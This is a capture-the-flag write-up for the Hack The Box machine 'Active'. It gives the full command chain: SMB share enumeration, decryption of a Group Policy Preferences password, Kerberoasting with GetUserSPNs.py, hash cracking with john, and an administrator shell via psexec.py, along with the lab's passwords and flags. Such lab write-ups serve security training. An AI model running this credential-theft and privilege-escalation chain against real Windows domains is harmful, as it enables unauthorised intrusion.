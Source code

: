 ## Active
*Easy*

I did port scanning using rustscam
```
rustscan -a 10.10.10.100 -- -A
```
![](images/active-scan1.png)

![](images/active-scan2.png)

Also I used smbmap to find what I can access since ports 139 and 445 are active.

```
smbmap -H 10.10.10.100
```

![](images/active-smbmap.png)

I can access \Replication only. So to connect I used smbclient.
```
smbclient -N //10.10.10.100 /Replication --option='client min protocol=NT1'
```
I looked around and found something at \active.htb\Policies\\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\\

![](images/active-location.png)

I brought Groups.xml to my machine.

![](images/active-groups.png)

Here, I found the user, SVC_TGS, whose password hash is 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'

In Microsoft all the passwords are encrypted with the same key, which is known publicly. I used the tool gpp-decrypt to crack the hash.

![](images/active-gpp.png)

So the password is 'GPPstillStandingStrong2k18'

Now again I used smbmap to see what I can access.

```
smbmap -H 10.10.10.100 -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
```
![](images/active-smbmap1.png)

So we can read \Users. Again I connected using smbclient.

```
smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingStrong2k18 --option='client min protocol=NT1'
```

![](images/active-smbclient1.png)

Thus, I got the user flag.     
**86d67d8ba232bb6a254aa4d10159e983**



### Privilage Escalation

With active.htb\STV_TGS we can find the administrator password hash. [This](https://www.secureauth.com/labs/open-source-tools/impacket/) article was helpful.

So to get the admin password, I used the script called GetUserSPNs.py. The location is /usr/share/doc/python3-impact/expamles/GetUserSPNs.py

```
python3 /usr/share/doc/python3-impact/examples/GetUserSPNs.py -dc-ip 10.10.10.100 active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```
![](images/active-hash.png)

I then cracked the hash using john. The administrator password is 'Ticketmaster1968'.
```
john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt admin.hash
```
![](images/active-admin.png)

I again used smbmap to see what I could access, this time as the administrator.
```
smbmap -H 10.10.10.100 -d active.htb -u administrator -p Ticketmaster1968
```
![](images/active-smbmap2.png)

Thus we can access ADMIN$ and C$. Generally, in windows machines, the root password is at C$, in the Desktop folder of the administrator.
```
smbclient //10.10.10.100/C$ -U active.htb\\administrator%Ticketmaster1968
```
![](images/active-root.png)

Thus, I got the root flag.   
**b5fc76d1d6b91d77b2fbf2d54d0f708b**

I wanted the shell also. So I found the suitable script, psexec.py in the same location as before.

```
python3 /usr/share/doc/python3-impacket/examples/psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100
```
![](images/active-shell.png)

Thus I got the shell as the adminstrator :)

